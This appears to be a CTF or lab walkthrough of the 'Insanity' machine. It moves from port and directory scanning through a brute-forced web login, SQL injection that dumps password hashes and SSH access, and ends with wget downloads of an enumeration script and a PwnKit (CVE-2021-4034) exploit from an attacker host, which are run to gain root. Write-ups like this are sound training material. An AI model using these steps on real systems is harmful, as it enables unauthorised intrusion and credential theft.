 ```
---------------------Starting Full Scan------------------------

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Making a script scan on extra ports: 80

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.2.33)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Insanity - UK and European Servers
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.2.33
```

Run gobuster on the webserver
```
└─$ gobuster dir -u http://192.168.250.124 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt  -x php,txt -t 50 -b '403,404' -r
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.250.124
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 200) [Size: 2397]
/img                  (Status: 200) [Size: 1091]
/data                 (Status: 200) [Size: 1091]
/news                 (Status: 200) [Size: 5111]
/.                    (Status: 200) [Size: 22263]
/fonts                (Status: 200) [Size: 2915]
/webmail              (Status: 200) [Size: 2896]
/phpmyadmin           (Status: 200) [Size: 15373]
/phpinfo.php          (Status: 200) [Size: 85291]
/monitoring           (Status: 200) [Size: 4848]
/licence              (Status: 200) [Size: 57]
```

If we check /monitoring it asks for creds.
No weak credentials here unfortunately.

If we look at /news, it gives us a potential username: otis
![[Pasted image 20240226184141.png]]

If we open the /monitoring in burpsuite we can brute force using Intruder with the rockyou.txt list. (Make sure you turn on follow redirects)

![[Pasted image 20240226184541.png]]

All the responses look the same except the first one. Let's see what they look like rendered.

The first one is a failed login.
![[Pasted image 20240226184629.png]]

But the second one looks like it logged in.
![[Pasted image 20240226184658.png]]

Let's try 123456 as the password for otis.
It works!

Looking at the dashboard, we see this message
![[Pasted image 20240226184843.png]]

I remember from the gobuster scan there was /webmail - otis' credentials also work there.

Back in monitoring, let's add a machine that definitely is down and see if we get the email.
![[Pasted image 20240226185029.png]]

We got the error email.
![[Pasted image 20240226185142.png]]

Notice that test doesn't have quotes. Maybe it is SQLi. Add another machine to see if we get execution. Looking at the first email, it looks like we have 4 fields so put null for blanks.

![[Pasted image 20240226185243.png]]

When the email comes, it shows the hostname and version so we have SQLi.
![[Pasted image 20240226185341.png]]

Read the tables
![[Pasted image 20240226190025.png]]

![[Pasted image 20240226190315.png]]

This link shows us how to get more information than just fields we know
https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

Make another monitoring item to get all the column names in the user table
![[Pasted image 20240226191404.png]]

Also do it for the other user table
![[Pasted image 20240226191521.png]]

The second one doesn't seem to be executing. Checking mysql manual, it's a default table and it gives us the fields.
https://mariadb.com/kb/en/mysql-user-table/

Dump the fields we need from that
![[Pasted image 20240226192059.png]]

Which gives us this
![[Pasted image 20240226192158.png]]

And from the users table
![[Pasted image 20240226192523.png]]

Let's try the unsalted passwords first since it'll be faster.
![[Pasted image 20240226192634.png]]

That gets us the foothold
```
└─$ ssh elliot@192.168.250.124
elliot@192.168.250.124's password: 
[elliot@insanityhosting ~]$ 
```

Transfer lse_cve.sh over and see what it finds
```
[elliot@insanityhosting ~]$ cd /tmp
[elliot@insanityhosting tmp]$ wget 192.168.45.222/lse_cve.sh
--2024-02-27 00:28:10--  http://192.168.45.222/lse_cve.sh
Connecting to 192.168.45.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 55098 (54K) [text/x-sh]
Saving to: 'lse_cve.sh'

100%[=============================================================================>] 55,098      --.-K/s   in 0.07s   

2024-02-27 00:28:10 (780 KB/s) - 'lse_cve.sh' saved [55098/55098]

[elliot@insanityhosting tmp]$ chmod +x lse_cve.sh
[elliot@insanityhosting tmp]$ ./lse_cve.sh
```

It gives us this
```
[!] cve-2021-4034 Checking for PwnKit vulnerability........................ yes!
```

PwnKit works, get the flags
```
[elliot@insanityhosting tmp]$ wget 192.168.45.222/PwnKit.sh
--2024-02-27 00:30:47--  http://192.168.45.222/PwnKit.sh
Connecting to 192.168.45.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 150 [text/x-sh]
Saving to: 'PwnKit.sh'

100%[=============================================================================>] 150         --.-K/s   in 0.004s  

2024-02-27 00:30:47 (35.6 KB/s) - 'PwnKit.sh' saved [150/150]

[elliot@insanityhosting tmp]$ chmod +x PwnKit.sh
[elliot@insanityhosting tmp]$ ./PwnKit.sh
[root@insanityhosting tmp]# cat /root/proof.txt
ae9ba5d8aaf2fb32c3ddb1185f4dad7c
[root@insanityhosting tmp]# find / -name local.txt 2>/dev/null
/home/elliot/local.txt
[root@insanityhosting tmp]# cat /home/elliot/local.txt
7aaa69fe5ddd1068034d82ad09172a1d
```